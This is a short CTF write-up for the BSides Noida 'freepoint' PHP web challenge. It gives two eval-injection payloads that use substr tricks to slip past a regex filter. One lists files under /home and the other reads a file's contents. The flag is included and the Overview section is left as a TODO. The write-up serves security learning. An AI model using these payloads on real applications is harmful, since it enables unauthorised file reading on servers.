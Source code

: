 # BSides Noida CTF - freepoint (34 solves)

> i hate php >.<
Note : Bruteforce is not required.

**Category**: web

**Given**: 
- [index.php](handouts/index.php): PHP page source code

**Requirements**: N/A

**Solution Files**: [solve.py](solve.py)

**TL;DR**: Create a serialized PHP payload that reaches the `eval`, find the flag file and read its content.

### Overview
TODO

### Exploit

`substr` trick to get strings, to bypass regex filter.

PHP payload to list files:
```
echo+implode(substr("+|",1),glob("/home/*"))
```

PHP payload to read file:
```
echo+fread((fopen(urldecode(glob("/home/*")[0]), substr("+r", 1, 1))), 10000000);
```


**Flag**: BSNoida{Fre3_fl4g_f04_y0u_@@55361988!!!}
